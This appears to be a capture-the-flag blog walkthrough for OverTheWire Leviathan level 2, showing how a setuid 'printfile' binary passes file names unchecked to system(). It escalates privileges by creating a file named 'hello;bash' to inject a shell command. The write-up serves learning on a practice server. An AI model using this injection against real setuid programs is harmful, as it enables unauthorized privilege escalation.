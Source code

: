 ```yaml
---
title: OverTheWire Leviathan Level 1 -> 2
author: Michael McDonagh
pubDatetime: 2025-03-02T12:00:00Z
slug: overthewire-leviathan-2
featured: false
draft: false
tags:
  - overthewire
  - leviathan
  - linux
ogImage: ""
description: Solution for OverTheWire Leviathan level 2 challenge.
---
```


## Level Goal  

There is no information for this level, intentionally.

---

## Walkthrough  

Solution for the Overthewire.org [Leviathan level 2](https://overthewire.org/wargames/leviathan/leviathan2.html)

Login to the server using the password obtained from the previous level [Leviathan level 1](/posts/overthewire-leviathan-1).  

username: `leviathan2`  

```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```bash
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan2@leviathan:~$ 
```

There is a executable named `printfile` that will run with leviathan3 permissions.

When running the file we find out it takes a file name as it's argument.

```bash
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
```

Since it runs with `leviathan3` permissions we can try printing the password file leviathan3.

```bash
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Using `ltrace` we can begin to see what the executable is doing.

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                  = -1
puts("You cant have that file..."You cant have that file...
)                                                            = 27
+++ exited (status 1) +++
```

The first thing it does is call `access`. Access is used to check if the user has permission to access the given file, it also dereferences symbolic links so we cannot create a simlink to the password file.  

```text
access() 
    checks whether the calling process can access the file pathname.  
    If pathname is a symbolic link, it is dereferenced.
```

So we have seen what happens when we do not have permission to read a file, what happens when we do have the correct permission.
We create a file `sayHello` and write 'hello' to the file.
When we run `printfile` on sayHello we get the text 'hello' back.

```bash
leviathan2@leviathan:/tmp/mine2$ echo "hello" > sayHello
leviathan2@leviathan:/tmp/mine2$ ls
sayHello

leviathan2@leviathan:/tmp/mine2$ ~/printfile sayHello 
hello
```

Now we can use ltrace to dig deeper into what `printfile` is doing.

```bash
leviathan2@leviathan:/tmp/mine2$ ltrace ~/printfile sayHello 
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("sayHello", 4)                                             = 0
snprintf("/bin/cat hello", 511, "/bin/cat %s", "sayHello")        = 14
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat sayHello"hello
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```

We can see that the file is  

- checking if we have permission to access the file
- getting the effective uid
- setting the effective uid to leviathan3
- using system to run /bin/cat on the given file

Since the input is being passed directly to `system` it is not performing any validation.
We can pass other commands by creating files with special characters like `;` which is used to enter multiple commands in the terminal.

```bash
leviathan2@leviathan:/tmp/mine2$ touch 'hello;bash'

leviathan2@leviathan:/tmp/mine2$ ~/printfile 'hello;bash' 
/bin/cat: hello: No such file or directory
leviathan3@leviathan:/tmp/mine2$ 
```

Now we have a shell as `leviathan3`, we can read the password file.

```bash
leviathan3@leviathan:/tmp/min2$ cat /etc/leviathan_pass/leviathan3
Ahd*******
```
